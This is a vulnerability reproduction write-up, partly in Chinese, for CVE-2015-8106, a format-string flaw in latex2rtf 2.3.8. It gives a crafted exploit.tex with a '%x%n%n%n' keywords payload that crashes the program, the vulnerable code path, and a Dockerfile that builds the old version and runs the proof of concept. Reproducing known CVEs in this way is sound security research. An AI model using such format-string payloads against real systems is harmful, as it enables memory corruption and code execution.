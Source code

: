# CVE/EDB ID

CVE-2015-8106

## Experiment Environment

实验环境：Debian 9.13

软件版本：latex2rtf 2.3.8

docker镜像：[liruochen2008/cve20158106 - Docker Image | Docker Hub](https://hub.docker.com/r/liruochen2008/cve20158106)

使用命令：`sudo docker run -t liruochen2008/cve20158106:v3`即可获取镜像并创建容器，容器会自动重现漏洞。

## INSTALL & Configuration

[LaTeX to RTF converter - Browse /latex2rtf-unix/2.3.8 at SourceForge.net](https://sourceforge.net/projects/latex2rtf/files/latex2rtf-unix/2.3.8/)

解压tar包之后，使用Makefile进行安装即可。

## Problems in Installation & Configuration

## How to trigger vulnerability

编写https://seclists.org/oss-sec/2015/q4/283中提供的exploit.tex，如下所示：

```latex
"exploit.tex"
========================
\documentclass{article}
\begin{document}
\title{Exploitable}
\author{Jong-Gwon Kim}
\keywords{%x\%n\%n\%n}
\end{document}
=========================
```

其中，\keywords这一行，由于latex中符号%的注释作用，会使得第一个%之后的字符全部被忽略，因此应被修改为：`\keywords{\%x\%n\%n\%n}`。

执行命令 latex2rtf exploit.tex 后，触发段错误。

## PoCs

[CVE-2015-8106 : Format string vulnerability in the CmdKeywords function in funct1.c in latex2rtf before 2.3.10 allows remote attackers t (cvedetails.com)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-8106)

[oss-security - CVE-2015-8106 - latex2rtf v2.3.8 format string vulnerability (openwall.com)](https://www.openwall.com/lists/oss-security/2015/11/16/3)

## Vulnerability Details & Patch

```
When the user runs latex2rtf with malicious crafted tex file, an ``attacker can execute arbitrary code.
The function CmdKeywords processes the \keywords command in tex file.
The variable `keywords' in the function CmdKeywords may hold a malicious ``input string, which can be used as a format argument of vsnprintf.
-- Step 1. (funct1.c 1789 line)

1789        char *keywords = getBraceParam();
For instance, the variable keywords will point to the string “MALICIOUS” ``when a text line "\keywords{MALICIOUS}” exists in an input tex file.
-- Step 2. (funct1.c 1798 line)

1798    fprintRTF(keywords);
fprintfRTF() is called in line 1798, and the parameter is used as a ``format string, which can be malicious, as we described in step 1.
-- Step 3. (main.c 873 line)
858    void fprintRTF(char *format, ...){
      ...
873    vsnprintf(buffer, 1024, format, apf);
      ...
The value of format, which may be malicious, is used as an argument of ``vsnprintf in line 873, therefore arbitrary code can be executed.
```



## References

https://seclists.org/oss-sec/2015/q4/283

## Dockerfile参考示例

```dockerfile
FROM debian:latest
RUN apt-get update \
    && apt-get upgrade -y \
    && apt-get install -y wget \
    && apt-get install -y build-essential \
    && apt-get install -y texinfo \
    && cd home \
    && wget -O latex2rtf2.3.8.tar.gz \
    https://sourceforge.net/projects/latex2rtf/files/latex2rtf-unix/2.3.8/latex2rtf-2.3.8.tar.gz/download \
    && tar -xvf latex2rtf2.3.8.tar.gz \
    && cd latex2rtf-2.3.8 \
    && make && make install || : && make check || : && make install \
    && cd /home \
    && touch exploit.tex \
    && echo '\\documentclass{article}\n\
    \\begin{document}\n\
    \\title{Exploitable}\n\
    \\author{Jong-Gwon Kim}\n\
    \\keywords{\\%x\\%n\\%n\\%n}\n\
    \\end{document}' > exploit.tex
CMD cd /home && latex2rtf exploit.tex
```

​     
